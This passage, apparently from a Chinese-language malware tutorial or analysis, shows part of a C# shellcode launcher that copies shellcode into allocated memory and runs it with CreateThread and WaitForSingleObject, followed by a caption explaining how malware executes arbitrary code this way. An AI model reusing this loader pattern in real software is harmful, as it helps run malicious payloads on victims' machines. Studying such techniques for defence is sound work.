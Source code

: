        // 2. Copy shellcode to the allocated memory
        Marshal.Copy(shellcode, 0, funcAddr, shellcode.Length);
    
        IntPtr hThread = IntPtr.Zero;
        uint threadId = 0;
        // IntPtr pinfo = IntPtr.Zero; // param for CreateThread, not used here
    
        // 3. Create a new thread to execute the shellcode
        hThread = ShellcodeLauncherAPIs.CreateThread(
            IntPtr.Zero,    // lpThreadAttributes
            0,              // dwStackSize
            funcAddr,       // lpStartAddress (address of shellcode)
            IntPtr.Zero,    // lpParameter
            0,              // dwCreationFlags
            out threadId    // lpThreadId
        );
        if (hThread == IntPtr.Zero) { /* error handling, potentially free funcAddr */ return; }
    
        // 4. Wait for the thread to finish execution
        ShellcodeLauncherAPIs.WaitForSingleObject(hThread, 0xFFFFFFFF); // INFINITE
    
        // (Optional: CloseHandle for hThread, VirtualFree for funcAddr if needed)
        // return;
    }
    */
    ```
    
    此案例展示了恶意软件如何利用内存操作和线程创建 API 来动态执行任意代码。
